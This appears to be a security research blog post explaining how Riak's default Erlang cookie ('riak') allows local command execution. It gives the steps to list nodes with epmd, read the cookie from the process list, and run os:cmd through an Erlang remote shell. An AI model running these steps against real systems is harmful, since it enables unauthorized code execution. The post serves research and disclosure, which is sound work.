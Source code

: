 Original post date: 2020-12-21

## What is Riak

[Riak](https://riak.com/products/riak-kv/index.html) is a NoSQL key-value database that is built to maximize data availability and performance, especially in big data environments. It lives by the principles described in Amazon's Dynamo [paper](https://www.allthingsdistributed.com/files/amazon-dynamo-sosp2007.pdf) which later produced DynamoDB. It was released back in 2009 around the same time as Redis, but it was written in Erlang and really focuses on [high availablity](https://docs.riak.com/riak/kv/latest/learn/why-riak-kv/index.html).

At the core, it was designed to survive data or network failures. Running as a cluster, it's nodes are in constant communication. It exposes a REST API listening on localhost for stats, cluster info and various functions, as well as a local Protobuf service, but the main focus of this research is exploiting default auth mechanisms in the inter-node communication.

We're going to skip ahead to the breaking part, but if you'd like to pause and go read about Riak cluster internals, Erlang distributed architecture, etc then feel free to check out the [References](#references) below and blaze through some documentation first.

## Local Exploitation

Let's first check if riak is running on the local server by using the Erlang Port Mapper Daemon to list the names of running services.

```
$ epmd -names
epmd: up and running on port 4369 with data:
name riak at port 43451
```

By default, riak uses a cookie authentication for nodes with a cookie value of **riak**. 

```
$ ps -aux | grep cookie
/opt/riak/rel/riak/bin/riak -scl false -sfwi 500 -P 256000 -e 256000 -Q 262144 -A 64 -K true -W w -Bi -zdbbl 32768 
... -config ./releases/3.0/sys.config -setcookie riak
```

The cookie is a shared secret between nodes and clients. It can be set either on the CLI or *~/.erlang.cookie*. We can pass the cookie value to the Erlang client, connect to the node and call functions such as **os:cmd()** with the powerful remsh (Erlang remote shell /w REPL) interface.

```
$ erl -name test@localhost -setcookie riak -remsh riak@127.0.0.1
(riak@127.0.0.1)1> os:cmd("id;pwd").
"uid=1000(user) gid=1000(user) groups=1000(user)\n/opt/riak/rel/riak\n"
```

We can see that Riak must be running under the *user* account.

[This](https://broot.ca/erlang-remsh-is-dangerous.html) article explains all things remsh and Erlang's other interesting security notes and a great introduction is also available on the awesome Insinuator [blog](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/).
